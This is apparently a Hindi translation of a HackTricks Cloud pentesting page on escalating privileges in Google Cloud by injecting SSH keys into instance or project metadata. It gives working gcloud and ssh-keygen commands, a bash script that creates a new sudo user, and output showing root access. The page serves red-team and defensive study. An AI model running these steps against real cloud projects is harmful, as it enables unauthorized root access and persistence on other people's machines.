 # GCP - कस्टम SSH मेटाडेटा जोड़ें

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम विशेषज्ञ)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मेटाडेटा में संशोधन <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक हमलावर जिसके पास **इंस्टेंस के मेटाडेटा को संशोधित करने की अनुमति** है, वह इस अनुमति के साथ सेवा खाते को समझौता/एस्केलेट कर सकता है (जो कि एक स्कोप द्वारा प्रतिबंधित हो सकता है):

### **कस्टम मेटाडेटा में SSH कुंजियाँ जोड़ें**

GCP पर **Linux** **सिस्टम्स** आमतौर पर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) स्क्रिप्ट्स चला रहे होंगे। इनमें से एक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जो **नियमित रूप से** इंस्टेंस मेटाडेटा एंडपॉइंट को **अधिकृत SSH सार्वजनिक कुंजियों में परिवर्तनों** के लिए **क्वेरी** करता है।

**यदि एक नई सार्वजनिक** कुंजी पाई जाती है, तो उसे प्रोसेस किया जाएगा और **स्थानीय मशीन में जोड़ा जाएगा**। कुंजी के प्रारूप के आधार पर, यह या तो `~/.ssh/authorized_keys` फ़ाइल में एक **मौजूदा उपयोगकर्ता के लिए जोड़ा जाएगा या `sudo` अधिकारों के साथ एक नया उपयोगकर्ता बनाएगा**।

इसलिए, यदि आप अपने सेवा खाते के साथ **कस्टम इंस्टेंस मेटाडेटा को संशोधित कर सकते हैं**, तो आप एक विशेषाधिकार प्राप्त खाते में **SSH अधिकार प्राप्त करके** स्थानीय सिस्टम पर **रूट तक एस्केलेट** कर सकते हैं। यदि आप **कस्टम प्रोजेक्ट मेटाडेटा को संशोधित कर सकते हैं**, तो आप उस GCP प्रोजेक्ट में **किसी भी सिस्टम पर रूट तक एस्केलेट** कर सकते हैं जो अकाउंट्स डेमॉन चला रहा है।

### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता के लिए SSH कुंजी जोड़ें**

चलिए अपनी खुद की कुंजी को एक मौजूदा खाते में जोड़कर शुरू करते हैं, क्योंकि यह शायद सबसे कम शोर करेगा।

**इंस्टेंस को मौजूदा SSH कुंजियों के लिए जांचें**। इन उपयोगकर्ताओं में से एक को चुनें क्योंकि उनके पास संभवतः सुडो अधिकार होंगे।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
आपको निम्नलिखित जैसे अनुभाग की तलाश करनी चाहिए:
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
ध्यान दें कि सार्वजनिक कुंजियों का **थोड़ा अजीब प्रारूप** है - **उपयोगकर्ता नाम** को **शुरुआत** में सूचीबद्ध किया गया है (एक कोलन के बाद) और फिर **अंत** में फिर से। हमें इस प्रारूप का मिलान करना होगा। सामान्य SSH कुंजी संचालन के विपरीत, उपयोगकर्ता नाम बिलकुल महत्वपूर्ण है!

**उपयोगकर्ता नामों और कुंजियों के साथ पंक्तियों को एक नई पाठ** फ़ाइल में सहेजें जिसे `meta.txt` कहा जाता है।

मान लेते हैं कि हम ऊपर दिए गए उपयोगकर्ता `alice` को लक्षित कर रहे हैं। हम अपने लिए इस तरह **नई कुंजी उत्पन्न करेंगे**:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
अपनी नई पब्लिक की को `meta.txt` फाइल में निम्नलिखित प्रारूप का अनुकरण करते हुए जोड़ें:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
अब, आप निम्नलिखित कमांड के साथ अपने इंस्टेंस के लिए **SSH कुंजी मेटाडेटा को पुनः लिख सकते हैं**:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
अब आप **`alice` के संदर्भ में एक शेल तक पहुँच सकते हैं** इस प्रकार:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **नए विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

ऊपर दिए गए चरणों का पालन करते समय कोई मौजूदा कुंजियाँ नहीं मिलीं? `/etc/passwd` में कोई और दिलचस्प उपयोगकर्ता नहीं है जिसे लक्षित किया जा सके?

आप **वही प्रक्रिया का पालन कर सकते हैं** जैसा कि ऊपर बताया गया है, लेकिन बस **एक नया उपयोगकर्ता नाम बना लें**। यह उपयोगकर्ता स्वचालित रूप से बनाया जाएगा और उसे `sudo` के अधिकार दिए जाएंगे। स्क्रिप्टेड, प्रक्रिया इस तरह दिखेगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### प्रोजेक्ट स्तर पर SSH कुंजियाँ <a href="#sshing-around" id="sshing-around"></a>

पिछले अनुभाग में उल्लिखित विवरणों का अनुसरण करते हुए आप अधिक VMs को समझौता करने का प्रयास कर सकते हैं।

हम इसे थोड़ा और विस्तार दे सकते हैं [**प्रोजेक्ट स्तर पर SSH कुंजियों को लागू करके**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), जो आपको किसी भी उदाहरण के लिए **SSH के माध्यम से एक विशेषाधिकार प्राप्त खाते में प्रवेश करने की अनुमति देता है** जिसने स्पष्ट रूप से "Block project-wide SSH keys" विकल्प का चयन नहीं किया है।
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
यदि आप वास्तव में साहसी हैं, तो आप `gcloud compute ssh [INSTANCE]` टाइप करके अन्य बॉक्सेस पर अपना वर्तमान उपयोगकर्ता नाम भी उपयोग कर सकते हैं।

# संदर्भ
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
